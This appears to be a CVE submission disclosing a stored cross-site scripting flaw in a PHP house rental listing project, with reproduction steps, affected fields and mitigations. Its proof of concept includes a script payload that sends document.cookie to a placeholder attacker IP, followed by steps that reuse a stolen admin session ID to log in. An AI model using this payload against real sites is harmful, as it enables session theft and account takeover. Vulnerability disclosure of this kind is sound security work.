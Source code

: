 **CVE ID:** [Reserved ID - To be assigned by CNA]

---
### **CVE Submission**

**Title:** Stored Cross-Site Scripting (XSS) in House Rental and Property Listing Project PHP,MySQL v1.0 via `/app/list.php`

---

### **Overview**
A stored Cross-Site Scripting (XSS) vulnerability exists in the House Rental and Property Listing Project PHP,MySQL (v1.0) due to improper sanitization of user-supplied input in the registration module. An authenticated attacker can inject malicious JavaScript payloads into the application, which are then stored and executed when legitimate users access affected pages, leading to session hijacking, credential theft, or other client-side attacks.

---

### **Affected Products**
- **Product Name:** House Rental and Property Listing Project PHP,MySQL  
- **Vendor Homepage:** [projectworlds](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)  
- **Affected Version:** v1.0  
- **Fixed Version:** Not patched as of [date] (Unknown)  
- **Vulnerable File:** `/app/list.php`  
- **Software Link:** [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  

---

### **Vulnerability Details**
- **CWE-ID:** CWE-79 - Improper Neutralization of Input During Web Page Generation  
- **Attack Vector:** Remote  
- **Impact:** Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) 
- **Vulnerability Type:** Stored XSS  

**Technical Description:**  
The `/app/list.php` component fails to sanitize user-controllable input fields (`fullname`, `address`, or other registration room parameters) before storing them in the database. This allows attackers to inject arbitrary JavaScript code, which is rendered unsafely on pages accessible to other users (e.g., admin panels, property listings, or user profiles).

---

### **Proof of Concept (PoC)**
**Steps to Reproduce:**  

1. 需要先注册一个用户，然后登入到系统。

![image-20250313235009389](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313235009389.png?x-oss-process=style/img-to-webp)

2. Navigate to the registration page: `http://[target]/app/register.php`.  

3. Inject a malicious payload into a vulnerable input field (e.g., `<script>fetch('http://[ip]/?cookie=' + encodeURIComponent(document.cookie));</script>`).  

![image-20250313235954178](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313235954178.png?x-oss-process=style/img-to-webp)

3. Submit the registration  Room form.  

![image-20250314002029758](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314002029758.png?x-oss-process=style/img-to-webp)

4. The payload is stored in the database.  

5. When an administrator or user views the affected data (/app/list.php), the script executes.  然后获取到管理员的PHPSESSID.

![image-20250314000638889](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314000638889.png?x-oss-process=style/img-to-webp)

6. 使用管理员的PHPSESSID登陆系统。

![image-20250314001022390](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314001022390.png?x-oss-process=style/img-to-webp)

**Observed Result:**  

![image-20250314001207922](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314001207922.png?x-oss-process=style/img-to-webp)

**Expected Result:**  
User input should be sanitized to prevent script execution.  

### Vulnerability location:

1. /app/register.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - country
   - city
   - landmark
   - rent
   - sale
   - deposit
   - plot_number
   - rooms
   - state
   - address
   - address
   - description
   - image
   - open_for_sharing

2. /app/update.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - plot_number
   - rooms
   - country
   - stat
   - city
   - rent
   - sale
   - deposit
   - accommodation
   - description
   - landmark
   - address

---

### **Impact**
Successful exploitation allows:  
- Stealing session cookies or authentication tokens.  
- Redirecting users to phishing pages.  
- Performing actions on behalf of authenticated users.  
- Defacing the application interface.  

---

### **Mitigation Recommendations**
1. **Input Sanitization:** Implement strict input validation and output encoding (e.g., using `htmlspecialchars()` or `htmlentities()` in PHP).  
2. **Content Security Policy (CSP):** Deploy CSP headers to restrict inline scripts.  
3. **Database Sanitization:** Sanitize all user inputs before database insertion.  
4. **Framework Safeguards:** Use modern PHP frameworks (e.g., Laravel, Symfony) with built-in XSS protections.  

---

### **References**
- **Vendor Advisory:** Not available.  
- **Software Download:** [home-rental.zip](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  
- **CWE Documentation:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html)  

---

### **Credits**
- **Submitter:** takakie  
- **Report Date:** [14/03/2025]  

